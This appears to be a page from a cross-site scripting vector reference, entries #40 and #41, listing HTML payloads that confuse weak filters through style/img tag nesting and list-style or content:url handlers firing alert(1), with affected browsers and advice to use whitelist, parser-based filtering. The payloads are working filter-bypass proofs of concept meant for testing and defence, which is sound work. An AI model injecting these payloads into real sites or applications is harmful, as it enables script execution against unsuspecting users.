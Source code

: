 reporter：LeverOne

### Plaintext tags used for markup obfuscation#40test

This vector works on all tested user agents and shows how several filtering solutions can be tricked into accepting malicious HTML. A badly written filter will assume the error handler is part of the first image's "src" attribute and accept the incoming data.

```
<style><img src="</style><img src=x onerror=alert(1)//"> 
```

Don't rely on weak regular express for markup filtering. Use whitelists for allowed tags and rely on a filter solution based on a heavily tested tokenizer/parser.

*   internet explorer 5.0
*   internet explorer latest

*   opera 8.x

*   opera latest

*   firefox 1.x

*   firefox latest

*   chrome 3.0

*   chrome latest

*   safari 3.0

*   safari latest

*   xss

*   javascript
*   plaintext
*   tags
*   parsing
*   attributes

reporter：LeverOne

### Error handler via empty list-style and load handler via empty content#41test

Opera 10.5+ and earlier versions fire an error event for <LI> tags in case the background URL via style attribute cannot be loaded. The same works with "list-style-image" too. On Opera 10.10 and earlier more tag/style combinations like background:url() and background-image:url() work as well. Also works combination like content:url(svg), but at the moment it is sensitive to events and <script> tags before and after.

```
<li style=list-style:url() onerror=alert(1)></li> <div style=content:url(data:image/svg+xml,%3Csvg/%3E);visibility:hidden onload=alert(1)></div> 
```

*   opera 8.0
*   opera 12.0
